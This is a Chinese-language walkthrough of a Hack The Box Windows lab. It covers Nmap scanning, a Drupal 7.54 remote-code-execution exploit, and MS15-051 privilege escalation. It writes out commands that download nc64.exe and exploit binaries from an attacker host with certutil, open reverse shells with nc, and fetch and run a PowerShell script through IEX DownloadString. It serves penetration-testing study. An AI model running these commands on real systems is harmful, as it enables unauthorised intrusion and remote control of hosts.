# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.9 -oA scans/ports
...
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown
...
root@kali# nmap -sT -sC -sV -O -p80,135,49154 10.10.10.9 -oA scans/details
...
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

我们可以看到该网站正在运行IIS7.5，这是Windows 7的默认IIS，此外我们还可以看到该Web服务器正在托管Drupal 7。

## Drupal - TCP 80



刚刚nmap扫描出了robots.txt文件，接着查看CHANGELOG.txt来确定



```
root@kali# curl -s http://10.10.10.9/CHANGELOG.txt | head

Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
- Logging of searches can now be disabled (new option in the administrative
  interface).
- Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
  (API addition: https://www.drupal.org/node/2827134).
- Added new function for determining whether an HTTPS request is being served
```

发现版本：Drupal 7.54。

# 漏洞检测与利用

## searchsploit

通过searchsploit查询可利用版本

```
searchsploit drupal 7.x
```



该版本存在 rce ，编辑 exploit，该exploit会攻击由服务扩展创建的REST端点，我们只需要找出REST端点的名称即可利用该漏洞。

通过目录枚举，我们发现 endpoint 为 /rest，用其替换exploit。

```
gobuster -q dir --url http://10.10.10.9 -t 50 --wordlist ./word.txt
```







执行脚本前需要安装php-curl否则无法运行成功

```
apt-get install php-curl
```

命令执行成功



## 反弹shell

### 通过certutil命令将nc下载到靶机中

```
http://10.129.115.43/shell.php?cmd=certutil -urlcache -f http://10.10.14.58:8001/nc64.exe nc64.exe //下载nc
http://10.129.115.43/shell.php?cmd=nc64.exe 10.10.14.58 1234 -e cmd  //反弹shell
```

> Certutil 是 Windows 操作系统上预装的工具，可用于 校验文件MD5、SHA1、SHA256，下载恶意文件和免杀。
> 
> certutil -urlcache -f http://10.10.14.58:8001/nc64.exe nc64.exe:
> 
> certutil：调用 certutil 工具。
> 
> -urlcache：指定 certutil 使用 URL 缓存子命令。这通常用于从 URL 下载文件或显示缓存的 URL 数据。
> 
> -f：强制覆盖现有文件（如果目标文件已经存在）。



成功获取shell



# 提权

systeminfo查询该计算机的相关信息

```
PS C:\inetpub\drupal-7.54> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 ??
System Boot Time:          4/3/2019, 1:56:57 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.048 MB
Available Physical Memory: 1.550 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.582 MB
Virtual Memory: In Use:    513 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

使用Sherlock.ps1查找系统缺少的版本补丁与漏洞   https://github.com/rasta-mouse/Sherlock

> 提权小神器Sherlock的分析与利用：
> 
> Sherlock是一个在Windows下用于本地提权的PowerShell脚本。
> 
> 目前包含了以下漏洞：
> 
> MS10-015 : User Mode to Ring (KiTrap0D)
MS10-092 : Task Scheduler
MS13-053 : NTUserMessageCall Win32k Kernel Pool Overflow
MS13-081 : TrackPopupMenuEx Win32k NULL Page
MS14-058 : TrackPopupMenu Win32k Null Pointer Dereference
MS15-051 : ClientCopyImage Win32k
MS15-078 : Font Driver Buffer Overflow
MS16-016 : ‘mrxdav.sys’ WebDAV
MS16-032 : Secondary Logon Handle

在运行该脚本前需要在脚本中添加Find-ALLvulns查找所有漏洞

```
http://10.129.115.58/shell.php?cmd=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.58:8001/Sherlock.ps1') | powershell -noprofile 
```

> echo IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')：
> 
> IEX 是 Invoke-Expression 的缩写，PowerShell 中的一个命令，用于执行传入的字符串表达式。在此命令中，它将执行从 URL 下载的 PowerShell 脚本内容。
> 
> New-Object System.Net.Webclient 创建一个新的 WebClient 对象，该对象用于进行网络操作。
> 
> DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1') 方法从指定的 URL 下载内容，并以字符串形式返回下载的内容。URL 指向了一个名为 Sherlock.ps1 的 PowerShell 脚本文件。

使用MS15-051进行提权



将ms15-051x64.exe下载到靶机中并命名为Shell.exe
使用nc反弹shell

```
certutil -urlcache -f http://10.10.14.58:8000/ms15-051x64.exe Shell.exe 
Shell.exe "nc64.exe 10.10.14.58 4242 -e cmd.exe"
```



成功获取到system权限

